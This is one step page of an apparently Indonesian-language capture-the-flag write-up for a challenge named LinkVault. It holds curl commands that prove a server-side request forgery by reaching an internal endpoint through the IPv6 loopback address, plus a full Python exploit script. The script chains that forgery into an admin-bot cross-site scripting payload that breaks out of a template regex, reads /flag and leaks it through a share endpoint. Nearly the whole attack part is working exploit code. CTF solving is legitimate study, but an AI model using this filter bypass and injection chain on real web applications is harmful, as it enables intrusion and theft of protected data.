

# LinkVault — Langkah exploit (live)

[← Overview](49-linkvault.md) · [Index](index.md)

> **Langkah 8/12 — Langkah exploit (live).** Register dan buktikan SSRF:
>
> **Titik penting:** curl -sS -c cj -X POST -d 'username=lvr123456&password=pw12345' "$BASE/register" · curl -sS -b cj -X POST \ · http://s1.nfx.my.id:49191
>
> **Berikutnya:** [Eksploitasi / Solver](49-linkvault-09-eksploitasi-solver.md)

## 3.2 Langkah exploit (live)

Register dan buktikan SSRF:

```bash
BASE=http://s1.nfx.my.id:49191
curl -sS -c cj -X POST -d 'username=lvr123456&password=pw12345' "$BASE/register"
curl -sS -b cj -X POST \
  --data-urlencode 'url=http://[::1]:8081/internal/import?title=SSRF-PROOF&filter=benign' \
  --data-urlencode 'filter=x' \
  "$BASE/submit"
```

Respons sukses berisi preview internal API:

```text
Link successfully queued for moderation
...
{"ok":true,"queued":true,"source":"crawler"}
```

Kontrol negatif: URL dengan `127.0.0.1` ditolak:

```bash
curl -sS -b cj -X POST \
  --data-urlencode 'url=http://127.0.0.1:8081/internal/import?filter=x' \
  --data-urlencode 'filter=x' "$BASE/submit"
# -> "host is not allowed"
```

Script exploit lengkap:

```python
#!/usr/bin/env python3
"""LinkVault full chain: SSRF -> internal queue -> admin-bot XSS -> flag -> /api/share."""
import re, sys, time, urllib.parse
import requests

BASE = sys.argv[1] if len(sys.argv) > 1 else "http://s1.nfx.my.id:49191"
USER = "lvr" + str(int(time.time()))[-6:]
PASS = "pw12345"
S = requests.Session()

r = S.post(BASE + "/register", data={"username": USER, "password": PASS},
           allow_redirects=False)
assert r.status_code == 302, r.text[:300]

benign = "http://[::1]:8081/internal/import?title=SSRF-PROOF&filter=benign"
r = S.post(BASE + "/submit", data={"url": benign, "filter": "x"})
print("SSRF queued:", "Link successfully queued for moderation" in r.text)

# Template admin: <script>if (true) { /{{.Filter}}/g.test("x") }</script>
# Break out of the regex, run same-origin JS, exfiltrate /flag to /api/share.
js = ("fetch('/flag').then(function(r){return r.text()})"
      ".then(function(t){fetch('/api/share?to=%s&d='+encodeURIComponent(t))})" % USER)
filter_payload = "./;" + js + ";var q=/."
url = ("http://[::1]:8081/internal/import?title=Review+Item&filter="
       + urllib.parse.quote(filter_payload, safe=""))
r = S.post(BASE + "/submit", data={"url": url, "filter": "x"})
print("XSS queued:", "Link successfully queued for moderation" in r.text)

flag = None
for i in range(60):
    time.sleep(2)
    rep = S.get(BASE + "/reports")
    m = re.search(r"NFX\{[^}]*\}", rep.text)
    if m:
        flag = m.group(0)
        print(f"[+] flag after {2*(i+1)}s: {flag}")
        open("05-reports-with-flag.html", "w").write(rep.text)
        break
print("FLAG=" + str(flag))
```

### Evidence langkah ini



*Terminal evidence — `source-notes.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`source-notes.txt`](assets/linkvault/source-notes.txt)
